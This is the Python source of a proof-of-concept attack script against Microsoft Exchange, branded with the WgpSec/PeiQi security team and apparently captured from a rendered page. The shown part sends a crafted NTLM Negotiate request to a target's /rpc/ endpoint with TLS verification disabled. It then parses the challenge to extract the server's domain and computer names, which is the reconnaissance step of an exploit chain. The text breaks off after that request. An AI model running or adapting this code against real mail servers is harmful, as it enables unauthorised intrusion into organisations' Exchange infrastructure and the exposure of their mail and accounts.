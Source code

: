 ```

def title():
    print('+---------WgpSec狼组安全团队-------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: Microsoft Exchang 多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.org                                       \033[0m')
    print('+  \033[36mEmail       >>> Administrator@根域名  (默认)                        \033[0m')
    print('+------------------------------------------')

def _unpack_str(byte_string):
    return byte_string.decode('UTF-8').replace('\x00', '')

def _unpack_int(format, data):
    return unpack(format, data)[0]

def parse_challenge(Negotiate_base64_decode):
    target_info_field = Negotiate_base64_decode[40:48]
    target_info_len = _unpack_int('H', target_info_field[0:2])
    target_info_offset = _unpack_int('I', target_info_field[4:8])

    target_info_bytes = Negotiate_base64_decode[target_info_offset:target_info_offset + target_info_len]

    domain_name = ''
    computer_name = ''
    info_offset = 0
    while info_offset < len(target_info_bytes):
        av_id = _unpack_int('H', target_info_bytes[info_offset:info_offset + 2])
        av_len = _unpack_int('H', target_info_bytes[info_offset + 2:info_offset + 4])
        av_value = target_info_bytes[info_offset + 4:info_offset + 4 + av_len]

        info_offset = info_offset + 4 + av_len
        if av_id == 2:    # MsvAvDnsDomainName
            domain_name = _unpack_str(av_value)
        elif av_id == 3:  # MsvAvDnsComputerName
            computer_name = _unpack_str(av_value)

    if domain_name and computer_name:
        return domain_name, computer_name
    else:
        print("\033[31m[x] 计算机名称或域名称获取失败")
        sys.exit(0)


def POC_1(target_url, Email):
    print("\033[32m[o] 正在获取 计算机名称和域名称.....\033[0m")
    ntlm_type1 = (
        'NTLMSSP\x00'  # NTLMSSp签名
        '\x01\x00\x00\x00'  # 信息类型
        '\x97\x82\x08\xe2'  # 标记
        '\x00\x00\x00\x00\x00\x00\x00\x00'  # 域名称字符
        '\x00\x00\x00\x00\x00\x00\x00\x00'  # 工作字符
        '\x0a\x00\xba\x47\x00\x00\x00\x0f'  # 系统版本
    )
    headers = {
        'Authorization': 'Negotiate {}'.format(b64encode(ntlm_type1))
    }
    basic_url = 'https://{}/rpc/'.format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.get(url=basic_url, headers=headers, verify=False)
```